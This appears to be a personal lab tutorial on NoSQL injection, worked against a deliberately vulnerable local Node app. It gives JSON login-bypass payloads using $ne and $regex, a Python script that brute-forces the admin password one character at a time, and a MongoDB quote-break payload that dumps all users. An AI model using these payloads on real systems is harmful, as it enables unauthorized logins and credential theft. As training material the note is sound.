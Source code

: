 **NoSQL injections** are a security vulnerability in web applications that use NoSQL databases, such as MongoDB, Cassandra and CouchDB, among others. These injections occur when a web application allows an attacker to send malicious data via a query to the database, which can then be executed by the application without proper validation or sanitization.

NoSQL injection works similarly to SQL injection, but targets specific vulnerabilities in NoSQL databases. In a NoSQL injection, the attacker exploits database queries that rely on *documents* instead of relational tables to send malicious data that can manipulate the database query and obtain sensitive information or perform unauthorized actions.

Unlike SQL injections, NoSQL injections exploit the lack of data validation in a NoSQL database query, rather than exploiting weaknesses in SQL queries in relational databases.

# Example

For this example we will download [the following repository](https://github.com/Charlie-belmer/vulnerable-node-app) from **Github** and run the [[Docker]] container inside it.

The first thing to do is to enter *localhost:4000* and click the *Populate / Reset DB* button to create users.

If we click on *Login* and try to login with any invalid user, we can analyze the request from **BurpSuite** and see that it is sending a *POST* request including as *data* the *user* and *password*.

----
> Once we have tried [[SQL Injections (SQLI)]], if we see that we are not getting anywhere, we can try the **NoSQL Injections**.
> We can see possible payloads for **NoSQL** on the [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings) and [HackTricks](https://book.hacktricks.xyz/welcome/readme) websites.
----

The data we have sent are the following in *JSON* format:

```json
{
	"username":"admin",
	"password":"admin"
}
```

If instead of sending this data we replace it in the following way by the expression *$ne* (not equal) we can tell it to log in if the password is not *admin*:

```json
{
	"username":"admin",
	"password": {
		"$ne":"admin"
	}
}
```

As we can see it has let us log in correctly. If we want to get the exact password of the *admin* user we could create the a *Python* script. But first let's check the length of the password. For it we will use *regular expressions* and we will go up the number until it tells us that the password is not valid:

```json
{
	"username":"admin",
	"password": {
		"$regex":".{25}"
	}
}
```

We have verified that the length is 24, so we can create the script:

----
> Be careful to include content-type in the header. Otherwise, it will not be interpreted by the server.
----

```python
#!/usr/bin/python3

from pwn import *
import requests, time, sys, signal, string

def def_handler(sig, frame):
    print("\n\n[!] Exiting...\n")
    sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Global variables
login_url = "http://localhost:4000/user/login"
# All lower case characters + all upper case characters + all numbers
characters = string.ascii_lowercase + string.ascii_uppercase + string.digits

def makeNoSQLI():
    username = "admin"
    password = ""

    p1 = log.progress("Brute force")
    p1.status("Beginning brute-force proccess...")

    time.sleep(2)

    p2 = log.progress("Password")

	# 
    for position in range(0, 24):
        for character in characters:
            post_data = '{ "username" : "%s", "password" : { "$regex" : "^%s%s" } }' % (username, password, character)

            p1.status(post_data)

            headers = { 'Content-Type' : 'application/json' }

            r = requests.post(login_url, headers=headers, data=post_data)

            if "Logged in as user" in r.text:
                password += character
                p2.status(password)
                break

if __name__ == '__main__':
    makeNoSQLI()
```

This script should retrieve the *admin* user password character by character.

Another thing we could try, but this time in the *Lookup* tab, is to analyze the user's search request after clicking the button.

We can try changing the request method from *GET* to *POST* and the content-type to *application/json* and send the following data to see if it accepts it:

```json
{
	"username" : "admin"
}
```

If playing with *JSON* accepts the requests, we can do the same things we did in the previous example.

----
> We are doing the examples from **BurpSuite**, but if the request is processed by *GET* we can also do it directly from the URL.
----

**MongoDB** is the most common technology that we usually find when we can apply a *NoSQL Injection*. We can use the trick of the *quotation marks* to dump the users in the *Lookup* tab for example:

```sql
-- The user must be a valid database user, in this case, admin.
-- '1'=='1 dumps all users, we leave the quotation mark open so that the query itself is the one that closes the quotation mark
admin' || '1'=='1
```